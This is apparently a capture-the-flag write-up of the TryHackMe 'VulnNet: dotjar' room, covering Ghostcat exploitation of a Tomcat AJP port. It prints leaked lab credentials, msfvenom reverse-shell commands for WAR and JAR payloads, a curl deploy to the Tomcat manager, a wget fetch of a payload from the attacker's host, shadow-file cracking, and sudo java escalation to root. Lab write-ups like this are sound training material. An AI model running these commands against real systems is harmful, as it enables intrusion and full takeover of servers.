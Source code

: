 ```yaml
---
title: Vulnet dotjar
layout: post
author: Bit Criminals Team
date: 2021-05-12 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotjar
---
```


Let's start our daily routine nmap scan:

![](/images/dotjar1.png)

So, we get a 8009 port and a 8080 port on which Apache Tomcat is running.Well,the 8009 was new to me at least.

I then ran gobuster for port 8080 and here's what I got

![](/images/dotjar4.png)

I tried to login to the /manager/ directory but it asked for username and password.I was able to login to /host-manager/ but it was of no help.

After searching a bit,I finally found a help 
from my bestie-Google.I found a article about a exploit named **Ghostcat** CVE-2020-1938.

```https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp```

Then,I searched for this exploit with searchsploit and look I found a python script:multiple/webapps/48143.py 

![](/images/dotjar2.png)

Finally I ran the python script.

```python 48143.py <boxip>```

![](/images/dotjar3.png)

and here we go.We get a username and a password ***webdev:Hgj3LA$02D$Fa@21***.That's what we wanted. 

Then,again I started to look for some exploits to hack the Tomcat apache server running in port 8080
and google again prove it's supremacy.

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

Reading this article I understood that we had to create a reverse shell and then upload it to port 8080.
I also understood that the exploit must be a war file.Here's what I came up with msfvenom. 

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=1234 -f war > shell.war```

Then, I uploaded it with curl command as follows

``` curl -u 'webdev:Hgj3LA$02D$Fa@21' --upload-file shell.war  "http://ip:8080/manager/text/deploy?path=/monshell"```

Listening to the given port,1234 as given in the exploit in this case,I opened the /monshell/ directory in which I had uploaded the shell.

And,yes we get a shell and I was logged in as 'web'

![](/images/dotjar5.png)

After searching a bit we found a backup file of shadow in the /var/backups folder so we copied it to /tmp and gunzipped it to retrieve the shadow file.

![](/images/jar.png)

Then we cracked the password hash for jdk-admin using john and logged in as jdk-admin

![](/images/jar2.png)

Now we can view the user flag..

![](/images/jar3.png)

After doing `**sudo -l**` we found that we have root permissions to run any java file.

![](/images/jar4.png)

So we created an exploit using msfvenom 

```py
msfvenom -p java/shell_reverse_tcp lhost=<local ip> lport=1234 -f jar -o pwn.jar
```
Then i opened a http-server and transferred the payload to the shell using wget 

![](/images/jar5.png)

```py
python3 -m http.server 80
wget <local ip>/pwn.jar --output-document=pwn.jar
```
And opened a listening port 1234 in my terminal and ran the .jar file in the shell.Thus we got the root access 

```py
sudo /usr/bin/java -jar pwn.jar
```
Now we can view the root flag as well!!

![](/images/jar6.png)




